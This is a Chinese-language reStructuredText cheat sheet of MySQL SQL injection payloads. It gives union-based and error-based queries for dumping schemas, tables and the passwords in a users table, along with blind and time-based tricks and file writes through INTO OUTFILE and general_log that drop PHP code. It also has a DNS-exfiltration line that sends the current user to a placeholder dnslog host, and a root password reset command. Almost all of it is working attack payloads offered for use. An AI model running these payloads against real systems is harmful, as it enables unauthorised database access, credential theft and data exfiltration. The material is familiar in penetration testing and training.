 MySQL Payload
========================================

常见Payload
----------------------------------------
- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT 1 --+ comment``
    - ``SELECT 1 # comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x9`` ``0xa-0xd`` ``0x20`` ``0xa0``
- Current User
    - ``SELECT user()``
    - ``SELECT system_user()``
- List User
    - ``SELECT user FROM mysql.user``
- Current Database
    - ``SELECT database()``
- List Database
    - ``SELECT schema_name FROM information_schema.schemata``
- List Tables
    - ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
    - ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
    - ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT 0x414243`` => return ``ABC``
- Delay
    - ``sleep(1)``
    - ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    - ``select @@datadir``
    - ``select load_file('databasename/tablename.MYD')``
- Blind
    - ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
    - ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
    - ``select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2))``
- Change Password
    - ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``
- DNS log
    - ``select load_file(concat('\\\\',user(),'.your-dnslog.com'));``
    - `dnslog <http://dnslog.cn/>`_

**注意：mysql 5.0 之后才有** ``infomation_schema`` **这个表**

常用系统注入函数
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- version()
- user()
- database()
- @@datadir  数据库路径
- @@version_compile_os  操作系统版本

报错注入常见函数
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- extractvalue
- updatexml
- GeometryCollection
- linestring
- multilinestring
- multipoint
- multipolygon
- polygon
- exp

其他常见函数
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- hex()
- ascii()
- length()
- substring()
- mid()
- elt()
- concat()
- concat_ws()
- group_concat()

常见注入方法
----------------------------------------

联合注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql
    
    ?id=1' order by 4--+
    ?id=0' union select 1,2,3,database()--+
    ?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database() --+
    ?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name="users" --+
    #group_concat(column_name) 可替换为 unhex(Hex(cast(column_name+as+char)))column_name

    ?id=0' union select 1,2,3,group_concat(password) from users --+
    #group_concat 可替换为 concat_ws(',',id,users,password )

    ?id=0' union select 1,2,3,password from users limit 0,1--+


报错注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql
    
    1.floor()
    select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

    2.extractvalue()
    select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

    3.updatexml()
    select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

    4.geometrycollection()
    select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

    5.multipoint()
    select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

    6.polygon()
    select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

    7.multipolygon()
    select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

    8.linestring()
    select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

    9.multilinestring()
    select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

    10.exp()
    select * from test where id=1 and exp(~(select * from(select user())a));

报错注入例子
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    爆库：?id=1' and updatexml(1,(select concat(0x7e,(schema_name),0x7e) from information_schema.schemata limit 2,1),1) -- +
    爆表：?id=1' and updatexml(1,(select concat(0x7e,(table_name),0x7e) from information_schema.tables where table_schema='security' limit 3,1),1) -- +
    爆字段：?id=1' and updatexml(1,(select concat(0x7e,(column_name),0x7e) from information_schema.columns where table_name=0x7573657273 limit 2,1),1) -- +
    爆数据：?id=1' and updatexml(1,(select concat(0x7e,password,0x7e) from users limit 1,1),1) -- +

    #concat 也可以放在外面 updatexml(1,concat(0x7e,(select password from users limit 1,1),0x7e),1)


写文件
----------------------------------------

写文件前提
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- root 权限
- 知晓文件绝对路径
- 写入的路径存在写入权限
- secure_file_priv 允许向对应位置写入
- ``select count(file_priv) from mysql.user``

基于 into 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    union select 1,1,1 into outfile '/tmp/demo.txt'
    union select 1,1,1 into dumpfile '/tmp/demo.txt'

dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

基于 log 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    show variables like '%general%';
    set global general_log = on;
    set global general_log_file = '/path/to/file';
    select '<?php var_dump("test");?>';
    set global general_log_file = '/original/path';
    set global general_log = off;


参考链接
----------------------------------------
- `MySQL注入常用函数 <https://www.jianshu.com/p/93924686345e>`_